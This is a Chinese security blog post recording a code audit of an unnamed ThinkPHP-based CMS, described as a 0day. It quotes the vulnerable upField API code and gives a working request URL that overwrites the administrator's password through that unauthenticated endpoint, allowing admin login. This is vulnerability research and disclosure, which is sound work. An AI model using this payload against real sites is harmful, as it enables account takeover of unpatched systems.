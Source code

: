 #  某CMS权限绕过漏洞（0Day）   
原创 Ambition  进击安全   2024-11-22 03:15  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
  
  
**一、前言**  
  
          
不会存在相关的POC，要POC的师傅可以划走啦，这个文章记录一下自己在给xx做代码审计的一次权限绕过，大致源码方式是（得到目标->提取指纹->github搜索->拿到源码），这里可实现前台rce效果，着重讲解如何进行权限绕过的审计。  
  
**二、审计过程**  
  
    在拿到源码之后，先来查看文件目录。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoks7HDePECibYfu8FFFibnvDSCG8HltE3j8VjjRUjiaURGaMBU9aOyI411BQ/640?wx_fmt=png&from=appmsg "")  
  
可以看到为经典的TP开发框架，这里让其页面报错发现为TP5.0.10。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksHbJNBDY98iaJWicX19XGCSlKzvHOZ6XnOOsjoY6YplTmoicwFVaEmQPIQ/640?wx_fmt=png&from=appmsg "")  
  
使用工具进行扫描之后未发现漏洞，开始审计，这里我们先看Application下的Controller层。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksFrpRCZpAIiajc1QlrupAK6C9jNOOricdDNS2VTgiauYOW2XOGQN21tp5w/640?wx_fmt=png&from=appmsg "")  
  
admin目录就没必要看了，直接看前台可以访问到的即可，api目录，查看相关代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVokss6ZAb2H1gN9mGnrnNdP4bYeWwkuJgOKEMYPrfKlfPmFRTUkiamJ75Eg/640?wx_fmt=png&from=appmsg "")  
  
这里可以看到存在一个方法upField方法，代码如下:  
```
    public function upField(){
        $table=input('table');//表名
        $id_name=input('id_name');//条件字段
        $id_value=input('id_value');//条件值
        $field=input('field');//修改的字段
        $field_value=input('field_value');//修改的值
        if ($field_value=='false'){
            $field_value=2;
        }
        if (empty($table)||empty($id_name)||empty($id_value)||empty($field)||$field_value===false){
            return ajaxReturn(0,'参数不足');
        }
        $where[$id_name]=['eq',$id_value];
        $status=Db::name($table)->where($where)->setField($field,$field_value);
        if ($status){
            return ajaxReturn(200,'操作成功');
        }else{
            return ajaxReturn(0,'操作失败');
        }
    }
```  
  
可以看到最终调用了方法setFiled。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoks6dTD1QpxfeV5XAnIxh7dmDjb1Judlic74ic9IiaW9yAOd5AETiczuxyGicg/640?wx_fmt=png&from=appmsg "")  
  
跟入发现调用的是update更新方法，并且这里对更新的表table也是可控的，内容也是可控的，所以第一时间想到的就是把管理员密码通过方法给更新掉。  
  
先来看看数据库的信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksib3q5vaqRoQZEspicN3LguYrB7QRdQpkqAONzQJkWzTgaedX2xpTLFyw/640?wx_fmt=png&from=appmsg "")  
  
可以看到存储在了ybk_admin_user表当中，password其实可以看出来是md5加密的，保险起见从代码找下password的存储方式。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksyibQ3JfCPwYk3BiaHsxjaUNw0hSy0iapJJQ4ZKtxVUSSTiaiaDRThvDWH6Q/640?wx_fmt=png&from=appmsg "")  
  
可以看到用户输入的password经过md5加密与数据库当中取出来的password进行比较，说明确实是md5加密。  
  
**三、漏洞验证**  
  
****  
访问路由http://127.0.0.1/index.php/api/Api/upField  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksjnGyXHcbadU3QN6WWzpAgmvRTn2UFbEaRAIyoBQoce3ic0AwkFot6JA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数不足，开始补充参数，再经过慢慢调试之后如下payload：  
```
http://127.0.0.1/index.php/api/Api/upField?table=admin_user&id_name=user_id&id_value=1&field=password&field_value=1
```  
  
这里表示操作admin_user表，并且字段为user_id值为1其中的password字段的值为1。  
  
查看一下数据库的值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksNsibXazKLMbF8kG2bO0BdERSPhcSta87aS6MpibOrA7ibQcF6Wmq4A7RA/640?wx_fmt=png&from=appmsg "")  
  
可以看到成果更改了，因为登陆验证为md5加密比较，所以我们把我们想要更改的密码进行md5加密之后更改即可，这里以123为例。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksHGVV44on1RX4GA4FKb4HNzh3dtR6icqByueu2w2EhrNnODkawVtA3XA/640?wx_fmt=png&from=appmsg "")  
  
进行修改：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVokss4b2U6lNyFn8JLtWk6Qm24mnwicibkpMQ80WR2V3oE4Hib9dLoeCGxpIw/640?wx_fmt=png&from=appmsg "")  
  
查看数据库：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksIxFaRkJbJXt7O0Zx10B1dNdmLPMDZJfEr1NayW6icAVVvgAtFDANPZg/640?wx_fmt=png&from=appmsg "")  
  
尝试登陆。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhV17MEVSlFD9ZIuVvXbVoksOXoKaER5QV356ibypT1FdibSTTAAFWxoSibsWKlso7qgtIhXAEc1vq7Lw/640?wx_fmt=png&from=appmsg "")  
  
**四、完结**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
****  
